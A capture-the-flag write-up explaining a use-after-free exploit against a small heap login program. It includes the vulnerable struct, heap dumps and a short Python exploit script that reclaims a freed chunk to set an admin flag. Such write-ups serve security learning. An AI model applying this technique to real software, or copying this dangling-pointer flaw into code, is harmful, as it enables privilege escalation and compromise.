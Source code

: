 
The program allows us to login, sign out, print flag, lock and restore user. Login ``malloc`` a block of memory on heap, it takes the 31 bytes input for username, adds 1 byte for end of string, allocated user is pointed to by ``curr`` pointer. Sign out free the address that ``curr`` points to. Lock user operation makes ``save`` pointer points to same address as ``curr`` does, while restore operation does the opposite, it points ``curr`` to address pointed to by ``save``. If ``admin`` field is set print flag operation call ``system`` to print out the flag, otherwise, it allows us to input a fake one. 

```
struct creds {
  void *padding;
  char name[32];
  int admin;
};

struct creds *curr;
struct creds *save;

char *fake_flag;

```

Login the first time with username ``aaaaaaaabbbbbbbbccccccccddddddd``.

```
0x5555556032a0: 0x0000000000000000      0x6161616161616161
0x5555556032b0: 0x6262626262626262      0x6363636363636363
0x5555556032c0: 0x0064646464646464      0x0000000000000000
0x5555556032d0: 0x0000000000000000      0x0000000000020d31
0x5555556032e0: 0x0000000000000000      0x0000000000000000
```

Lock user to make ``save`` point to ``curr``, logout current user to free ``curr``, but ``save`` pointer still points to address ``0x5555556032a0``.

```
0x5555556032a0: 0x0000000000000000      0x0000555555603010
0x5555556032b0: 0x6262626262626262      0x6363636363636363
0x5555556032c0: 0x0064646464646464      0x0000000000000000
0x5555556032d0: 0x0000000000000000      0x0000000000020d31
0x5555556032e0: 0x0000000000000000      0x0000000000000000
```

Print flag now we are allowed to input a fake flag, ``fake_flag`` pointer will be allocated an area that previously freed and pointed to by ``save`` pointer. We need to input enough bytes to cover the struct so that ``admin`` field could be set to 1.

```
0x5555556032a0: 0x3131313131313131      0x3131313131313131
0x5555556032b0: 0x3131313131313131      0x3131313131313131
0x5555556032c0: 0x3131313131313131      0x3131313131313131
0x5555556032d0: 0x000000000000000a      0x0000000000020d31
0x5555556032e0: 0x0000000000000000      0x0000000000000000
```

Now we restore user to reuse data pointed to by ``save`` pointer. Print again flag, as this moment the ``admin`` field is set to 1, we are able to get to the call to ``system`` function.

```
*** WINBLOWS LOGIN *********
1. Login into user.
2. Sign out.
3. Print flag.
4. Lock user.
5. Restore user.
> 3
Here's your flag:
[Detaching after vfork from child process 8343]
/bin/cat: /flag.txt: No such file or directory
```

Repeat the operations on server to get the flag.

```
menu = Menu(remote)

menu.login('A'*31)
menu.lock_user()
menu.sign_out()
menu.print_flag(b'\x01'*40)
menu.restore_user()
menu.print_flag("")
```
